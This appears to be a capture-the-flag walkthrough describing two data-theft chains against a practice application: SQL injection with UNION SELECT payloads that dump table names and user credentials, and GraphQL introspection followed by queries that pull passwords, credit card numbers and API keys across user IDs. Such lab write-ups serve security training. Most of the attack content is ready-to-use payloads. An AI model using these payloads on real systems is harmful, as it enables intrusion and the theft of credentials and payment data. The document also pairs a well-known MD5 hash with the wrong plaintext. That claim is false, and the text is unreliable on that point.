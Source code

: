 ## Data Exfiltration Chains

### SQL Injection Data Extraction
**Vulnerability**: SQL injection in search functionality
**Target**: Database content
**Objective**: Extract sensitive data from database

**Attack Chain**:
1. Access search functionality
2. Test for SQL injection with a single quote (`'`)
3. Confirm vulnerability with basic test: `' OR 1=1--`
4. Determine number of columns with UNION query: `' UNION SELECT 1,2,3,4,5,6,7--`
5. Identify which columns are displayed in the results
6. Extract database information:
   - Database version: `' UNION SELECT 1,2,sqlite_version(),4,5,6,7--`
   - Table names: `' UNION SELECT 1,2,name,4,5,6,7 FROM sqlite_master WHERE type='table'--`
   - User credentials: `' UNION SELECT 1,2,username,password,email,6,7 FROM users--`
7. Extract MD5 password hashes
8. Crack hashes offline (e.g., `5f4dcc3b5aa765d61d8327deb882cf99` = `SecretPassword123!`)

**Achievement**: Flag `DARK{sql_m4st3r}`

### GraphQL Data Extraction
**Vulnerability**: GraphQL introspection and excessive data exposure
**Target**: `/api/graphql` endpoint
**Objective**: Extract schema and sensitive data

**Attack Chain**:
1. Discover GraphQL endpoint at `/api/graphql`
2. Send introspection query to map the API:
   ```graphql
   {
     __schema {
       types {
         name
         fields {
           name
           type {
             name
             kind
           }
         }
       }
     }
   }
   ```
3. Identify sensitive fields like `password`, `creditCardNumber`, and `apiKey`
4. Craft query to extract sensitive data:
   ```graphql
   {
     getUserData(id: "1") {
       username
       password
       email
       creditCardNumber
       apiKey
     }
   }
   ```
5. Extract data from multiple users by iterating through IDs
